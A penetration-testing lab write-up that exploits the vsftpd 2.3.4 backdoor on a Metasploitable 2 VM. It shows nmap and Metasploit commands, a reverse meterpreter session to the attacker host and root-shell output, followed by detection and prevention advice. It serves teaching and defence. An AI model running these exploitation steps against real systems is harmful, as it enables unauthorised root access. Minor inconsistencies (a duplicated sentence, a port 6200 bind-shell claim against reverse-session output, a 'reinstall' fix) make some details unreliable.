




# Metasploitable — vsftpd 2.3.4 Backdoor

**Date:** June 2026 <br>
**Author:** ShahinSecLab <br>
**Category:** Network Penetration Testing <br>
**Difficulty:** Easy <br>
**Tools:** nmap, Metasploit

## Table of Contents

* [Introduction](#introduction)
* [Attack Flow](#attack-flow)
* [Why This Attack Works](#why-this-attack-works)
* [Lab Setup](#lab-setup)
* [Tools Used](#tools-used)
* [Prerequisites](#prerequisites)
* [Step 1 — Setting Up and Verifying the Target](#step-1--setting-up-and-verifying-the-target)
* [Step 2 — Scanning the Target with Nmap](#step-2--scanning-the-target-with-nmap)
* [Step 3 — Identifying the Vulnerable Service](#step-3--identifying-the-vulnerable-service)
* [Step 4 — Exploiting vsftpd 2.3.4 with Metasploit](#step-4--exploiting-vsftpd-234-with-metasploit)
* [Step 5 — Getting a Root Shell](#step-5--getting-a-root-shell)
* [How Defenders Can Catch This](#how-defenders-can-catch-this)
* [How to Prevent It](#how-to-prevent-it)
* [References](#references)
* [Lessons Learned](#lessons-learned)

## Introduction

Metasploitable 2 is a vulnerable Linux machine created for security testing practice. It contains many old and misconfigured services that can be tested in a lab environment.

In this lab, I tested the FTP service running on port 21 and found that it was using vsftpd 2.3.4. This version contains a backdoor that allows an attacker to get a root shell without needing valid login credentials.

## Attack Flow

```
Powered on Metasploitable 2 and verified the IP address
                        ↓
Switched to Kali and ran nmap version scan on 192.168.5.145
                        ↓
Found FTP port 21 open running vsftpd 2.3.4
                        ↓
Searched for vsftpd 2.3.4 exploit in Metasploit
                        ↓
Found exploit/unix/ftp/vsftpd_234_backdoor
                        ↓
Set RHOSTS to 192.168.5.145
                        ↓
Ran the exploit
                        ↓
Backdoor triggered — shell opened on port 6200
                        ↓
Got a root shell directly
                        ↓
whoami → root
```

## Why This Attack Works

In 2011, there was a backdoor introduced in the vsftpd 2.3.4 source code. It was very basic; if the username contained :) when trying to log in using FTP, then vsftpd would create a bind shell on TCP port 6200 in root. Anyone that knew how could immediately have root-level access to the computer without having any valid credentials.
The Metasploitable installation comes with this vulnerable version of vsftpd.

## Lab Setup

| Component   | Details    |
|-------------|------------|
| Attacker Machine  | Kali Linux                  |
| Target Machine    | Metasploitable 2            |
| Target IP         | `192.168.5.145`               |
| Network           | VMware Host-Only Network    |

## Tools Used

| Tool        | Purpose     |
|-------------|-------------|
| `nmap`        | Scan and identify open services on the target |
| `Metasploit`  | Run the vsftpd 2.3.4 backdoor exploit         |

## Prerequisites

| What | Why |
|------|-----|
| Kali Linux | Used as the attacker machine |
| Metasploitable 2 VM running | Target machine for testing |
| Network connection between both machines | Required for communication between attacker and target |
| nmap installed | To scan open ports and identify services |
| Metasploit Framework installed | To run the vsftpd 2.3.4 exploit |

## Step 1 — Setting Up and Verifying the Target

I powered on the Metasploitable 2 virtual machine in VMware. Once it booted up, the login screen showed the default credentials:
I powered on the Metasploitable 2 virtual machine in VMware. Once it booted up, the login screen showed the default credentials:

```bash
Login: msfadmin
Password: msfadmin
```
<p align="center">
  
</p>

I logged in and checked the IP address of the machine:

```bash
ifconfig
```
**Output:**

```
eth0      Link encap:Ethernet  HWaddr 00:0c:29:48:60:38
          inet addr:192.168.5.145  Bcast:192.168.5.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fe48:6038/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:57 errors:0 dropped:0 overruns:0 frame:0
          TX packets:66 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:5085 (4.9 KB)  TX bytes:6880 (6.7 KB)
          Interrupt:17 Base address:0x2000
```
The machine was up and running with the IP address `192.168.5.145`. I then switched to my Kali machine and started the attack from there.

<p align="center">
  
</p>

## Step 2 — Scanning the Target with Nmap

I ran an nmap scan to find open ports and identify running services on the target.

```bash
nmap -sV -sC 192.168.5.145
```
**Breakdown**

| Part | Description |
|------|-------------|
| `-sV` | Detects the version of each service running on the target |
| `-sC` | Runs the default Nmap scripts against discovered services |
| `192.168.5.145` | IP address of the target machine |

**Output:**

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-07-06 01:36 -0400
Nmap scan report for 192.168.5.145
Host is up (0.0011s latency).
Not shown: 977 closed tcp ports (reset)

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
```
The scan found several open ports and services running on the target. Many of them were old versions. The one that caught my attention was:

```
21/tcp   open  ftp   vsftpd 2.3.4
```
`vsftpd 2.3.4` is a well-known vulnerable version with a backdoor, so I decided to target that service.

## Step 3 — Identifying the Vulnerable Service

From the Nmap scan results, I confirmed that the FTP service was running `vsftpd 2.3.4`.

| Service | Port | Version         | Status   |
|---------|------|-----------------|----------|
| FTP     | 21   | vsftpd 2.3.4    | Vulnerable to backdoor exploit|

`vsftpd 2.3.4` is a well-known vulnerable version. In 2011, a backdoor was added to its source code. When the backdoor is triggered, it opens a root shell on TCP port `6200`.

Since Metasploit already includes a module for this vulnerability, I used it in the next step.

## Step 4 — Exploiting vsftpd 2.3.4 with Metasploit

### Started Metasploit

I started Metasploit Framework.

```bash
msfconsole -q
```
**Breakdown**

| Part | Description |
|---------|-------------|
| `msfconsole` | Starts the Metasploit Framework console |
| `-q` | Starts Metasploit in quiet mode by hiding the banner |

<p align="center">
  
</p>

### Searched for the `vsftpd` Exploit

I searched Metasploit for exploits related to `vsftpd`.

```bash
msf > search vsftpd
``` 
**Breakdown**

| Part | Description |
|---------|-------------|
| `search` | Searches the Metasploit module database |
| `vsftpd` | Keyword used to find modules related to the vsftpd service |

```
Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  Yes    VSFTPD v2.3.4 Backdoor Command Execution

Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor
```
The search returned the `exploit/unix/ftp/vsftpd_234_backdoor` module, which matched the version running on the target.

<p align="center">
  
</p>

### Selected the Exploit

I selected the **vsftpd 2.3.4 backdoor** exploit module.

```bash
msf > use exploit/unix/ftp/vsftpd_234_backdoor
```
**Breakdown**

| Part | Description |
|---------|-------------|
| `use` | Selects a Metasploit module |
| `exploit/unix/ftp/vsftpd_234_backdoor` | Module used to exploit the vsftpd 2.3.4 backdoor |

**Output:**

```
[*] Using configured payload cmd/linux/http/x86/meterpreter_reverse_tcp
msf exploit(unix/ftp/vsftpd_234_backdoor) >
```
<p align="center">
  
</p>

### Checked the Options

Before running the exploit, I checked the required options.

```bash
msf exploit(vsftpd_234_backdoor) > show options
```
**Breakdown**

| Part | Description |
|---------|-------------|
| `show options` | Displays the options required by the selected module |

**Output:**

```
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   21               yes       The target port (TCP)
   ```
I saw that only the target IP address needed to be configured because the FTP service was already running on the default port 21.

<p align="center">
  
</p>

### Set the Target IP

I set the target IP address.

```bash
msf exploit(vsftpd_234_backdoor) > set RHOSTS 192.168.5.145
```
**Breakdown**

| Part | Description |
|---------|-------------|
| `set` | Sets the value of a module option |
| `RHOSTS` | Specifies the target IP address |
| `192.168.5.145` | IP address of the target machine |

**Output:**

```
RHOSTS => 192.168.5.145
```
<p align="center">
  
</p>

### Ran the Exploit

After setting the target IP, I ran the exploit.

```bash
msf exploit(unix/ftp/vsftpd_234_backdoor) > run
```

## Step 5 — Getting a Root Shell

After running the exploit, Metasploit opened a Meterpreter session.

**Output:**
```
[*] Started reverse TCP handler on 192.168.5.128:4444 
[+] 192.168.5.145:21 - Backdoor has been spawned!
[*] Meterpreter session 1 opened (192.168.5.128:4444 -> 192.168.5.145:42041) at 2026-07-06 12:20:23 -0400

meterpreter > 
```

To access the target's shell, I ran:

```bash
meterpreter > shell
```
**Breakdown**

| Part | Description |
|---------|-------------|
| `shell` | Opens a command shell on the target from the Meterpreter session |

Since I wanted an interactive Bash shell, I ran:

```bash
/bin/bash -i
```
**Breakdown**

| Part | Description |
|---------|-------------|
| `/bin/bash` | Starts the Bash shell |
| `-i` | Starts Bash in interactive mode |

### Confirmed Root Access

I checked the current user:

```bash
root@metasploitable:/# whoami
```
**Output:**

```
root
```
Then I verified the user ID:

```bash
root@metasploitable:/# id
```
**Output:**

```
uid=0(root) gid=0(root)
```
The `whoami` and `id` commands confirmed that I had root access on the target machine. At this point, I had full control over the target machine as the root user.

<p align="center">
  
</p>

## How Defenders Can Catch This

| Indicator | What to Look For |
|-----------|------------------|
| Old vsftpd version running on the server | Check installed software versions and vulnerability scan results |
| FTP service running on an unnecessary port | Review open ports and disable unused services |
| Connection attempts to port 6200 | Monitor firewall logs and network traffic |
| FTP login attempts with unusual usernames like `:)` | Check FTP authentication logs |
| Unexpected root shell created by FTP service | Monitor processes and review system logs |
| Unpatched FTP software | Regular vulnerability scans and software updates |

## How to Prevent It

### Remove or upgrade vsftpd immediately

```bash
sudo apt remove vsftpd
sudo apt install vsftpd
```
### Block port 6200 at the firewall

```bash
iptables -A INPUT -p tcp --dport 6200 -j DROP
```
### Disable FTP if not needed

FTP is an outdated and insecure protocol. Use SFTP or SCP instead:

```bash
sudo systemctl stop vsftpd
sudo systemctl disable vsftpd
```
### Run regular vulnerability scans

Tools like OpenVAS or Nessus would flag vsftpd 2.3.4 immediately as a critical vulnerability.

### Always check software versions against known CVEs

```bash
https://nvd.nist.gov
```

## References

| Resource | Link |
|----------|------|
| Exploit Database — **vsftpd 2.3.4 Backdoor** | https://www.exploit-db.com/exploits/17491 |
| CVE Details — **CVE-2011-2523** | https://www.cvedetails.com/cve/CVE-2011-2523 |
| Rapid7 — **vsftpd 2.3.4 Backdoor Module** | https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor |
| MITRE ATT&CK — **T1190: Exploit Public-Facing Application** | https://attack.mitre.org/techniques/T1190/ |
| National Vulnerability Database (NVD) — **CVE-2011-2523** | https://nvd.nist.gov/vuln/detail/CVE-2011-2523 |

## Lessons Learned

While working through this attack I learned that:

- Service version detection is an important first step because knowing the exact version helps identify possible vulnerabilities.
- Running outdated services can lead to complete system compromise.
- The vsftpd 2.3.4 backdoor allowed direct root access without needing privilege escalation.
- Tools like nmap help identify vulnerable services quickly during a security assessment.
- Metasploit can simplify exploitation when a matching vulnerability is already known.
- Keeping services updated and removing unnecessary software can prevent attacks like this.
- Supply chain issues can be dangerous because malicious code can be introduced into software before it reaches users.